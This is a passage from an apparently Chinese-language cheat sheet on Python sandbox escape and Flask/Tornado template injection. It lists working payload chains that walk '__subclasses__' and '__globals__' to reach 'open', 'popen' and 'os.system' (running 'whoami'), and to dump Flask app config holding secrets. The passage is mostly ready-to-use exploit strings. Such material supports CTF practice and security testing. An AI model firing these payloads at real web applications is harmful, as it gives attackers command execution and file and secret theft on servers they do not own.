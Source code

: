 ```python
__builtins__ 197 <class 'contextlib._BaseExitStack'>
```

Python 3 的利用点主要在 `__builtins__` 中 (通过 eval 导入模块), 方法同上

open 和 popen 也能利用

```python
# open
''.__class__.__mro__[-1].__subclasses__()[125].__init__.__globals__['open']('d:/test.txt').read()

# popen
''.__class__.__mro__[-1].__subclasses__()[143].__init__.__globals__['popen']('whoami').read()
```

## 框架

一些常用框架的 tricks

### Flask

```python
config
request.environ

request.__class__.__mro__[-1]
session.__class__.__mro__[-1]

get_flashed_messages.__globals__['current_app'].config
url_for.__globals__['current_app'].config

url_for.__globals__['__builtins__'].__import__('os').system('whoami')
get_flashed_messages.__globals__['__builtins__'].__import__('os').system('whoami')

config.__class__.__init__.__globals__['os']['popen']('whoami').read()
```

### Tornado

```python
handler.settings
```

### Django

留个坑

## Bypass

### 拼接

通过 `__dict__` 绕过
